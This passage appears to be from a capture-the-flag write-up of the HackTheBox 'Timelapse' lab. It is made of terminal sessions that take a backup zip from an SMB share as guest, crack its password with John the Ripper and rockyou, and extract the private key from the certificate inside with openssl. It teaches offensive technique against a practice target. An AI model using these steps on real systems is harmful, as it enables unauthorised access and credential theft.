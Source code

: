 ```
┌──(nabla㉿kali)-[~]
└─$ impacket-smbclient timelapse.htb/guest@DC01.timelapse.htb -no-pass

[SNIP]

Type help for list of commands

# use Shares

# get Dev//winrm_backup.zip

# !file winrm_backup.zip

winrm_backup.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
```

**Cracking Protected Files**

```
┌──(nabla㉿kali)-[~]
└─$ unzip winrm_backup.zip 

[winrm_backup.zip] legacyy_dev_auth.pfx password: ❌
```

```
┌──(nabla㉿kali)-[~]
└─$ zip2john winrm_backup.zip > winrm_backup.john
```

```
┌──(nabla㉿kali)-[~]
└─$ john winrm_backup.john -wordlist:/usr/share/wordlists/rockyou.txt

[SNIP]

supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx) 
```

```
┌──(nabla㉿kali)-[~]
└─$ unzip winrm_backup.zip

[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```

```
┌──(nabla㉿kali)-[~]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

```
┌──(nabla㉿kali)-[~]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
Enter Import Password: ❌
```
